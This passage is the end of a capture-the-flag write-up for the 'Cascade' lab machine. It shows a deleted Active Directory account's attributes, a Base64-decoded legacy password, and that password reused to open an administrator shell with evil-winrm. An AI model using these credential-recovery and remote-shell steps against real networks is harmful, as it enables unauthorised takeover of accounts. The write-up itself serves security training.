 ```
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
Wa-hey!! Look at that! `cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz`!
  
  
Turns out it's just Base64 encoded, so easily decode it...
```
$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```
### Shell as Administrator
If box was trying to teach us anything, it's probably that even when IT Audits are performed regularly, bad security practices can still persist and weaken the security posture of an organization. Bad security practices like _using the same password for both TempAdmin and Administrator accounts_.
```
$ evil-winrm -i cascade.htb -u administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
```
This has been a wonderful box to do, hope you enjoyed it as much as I did. :)
